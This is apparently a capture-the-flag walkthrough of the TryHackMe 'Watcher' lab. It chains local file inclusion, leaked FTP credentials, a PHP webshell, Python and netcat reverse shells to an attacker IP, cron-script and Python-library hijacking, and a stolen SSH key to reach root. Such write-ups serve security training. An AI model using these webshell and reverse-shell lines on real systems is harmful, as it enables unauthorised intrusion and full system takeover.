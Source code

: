 * * *
  ### LAB: Watcher
  ### Platform: Tryhackme
* * *

![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1c2bacb9-866f-4196-8396-8f1ae25a5c8d)

### ENUMERATION
- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/53ee1839-ed07-4ed4-96fa-808620998f5f)

- Directory fuzzing with ffuf
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8c9dd130-a75d-4e98-ae70-56f3a8a35d3b)

- While inspecting the source code,a url caught my attenttion,the url serves php fies to the website,it seems it uses the `include()
php method` to read files,the `include()` method is vulnerable to LFI which allows an attacker to read files on the server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/16a7df9d-2b32-45ed-bff1-fd60a13232e7)

- My assumption was right,I was able to read the /etc/passwd file

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/213ddb3d-31f5-4e37-981a-ec3ae0e77ac0)

- Robots.txt indicates an hidden file `/secret_file_do_not_read.txt` but when I tried to read it,it flashed a `403 forbidden error`.
I was able to read it with the page vulnerable to lfi.The file revealed ftp credentials

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/35de7036-4afc-468f-93e4-720549c939d6)

- We have write permissions in a particular folder `files`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/55fe248a-39ad-471e-b1a4-19d9b1ceb79b)

- Since we can read files with lfi,we can upload a shell to the ftp server with the folder `files` and get rce,a typical php webshell
  will have this contents `<?php echo system($_GET['cmd']); ?>`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d50afd55-6824-4c75-a9fd-dca685ab10fa)

 - Rce gained
   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1d48d063-3156-442b-8880-c9ebb1616bbb)

- Pop a reverse shell with `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.158.229",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/19aedeef-e734-4a0e-aa59-4585199180df)

### ROAD TO PRIVESC

- `sudo -l` reveals that we can run commands as user toby e.g `sudo -u <command>`,we can move to toby's account with `sudo -u toby /bin/bash`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2ea55e9f-d7a9-413c-bfd4-520ff86864e6)

- `cat /etc/crontab` reveals an active cron jobs running as user mat,user `toby` also has write permission to the script

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c9ea4332-ebc7-4223-8e9e-add3e93cb333)

- We can spawn a rev shell with it by adding the line below to the sh file,now we are logged in as user mat
  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.158.229 1337 >/tmp/f`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0d3ba6cf-5a07-4952-9383-543c320f78e3)

### Hijacking python libraries

- Sudo -l reveals that we can run a python file as will with sudo

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d7d2fdfd-3b67-4975-b461-2a056b2837d7)
- After viewing the script,I noticed that it imports another script `cmd.py` which mat has writable permissions for,we can hijack it and add this line to cmd
  `import os
def get_command(num):
        if(num == "1"):
           os.system("/bin/bash")
           return "ls -lah"
`
  After running this command `sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`,I got logged in as will
### Root
- There is a b64 file in the opt directory which contains a private ssh key
  
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c60e1dc3-25d1-482d-aebd-6983f8a70ed5)

- Receive the file with python http.server,change permissions with `chmod 600` and login with `ssh -i <priv key> root@ip`,root access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1c814e54-eff2-4003-8e04-2134a26452fa)

### Unintended method

- Use Overlayfs exploit

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4058e674-e367-49d6-98e4-444bac936697)

  
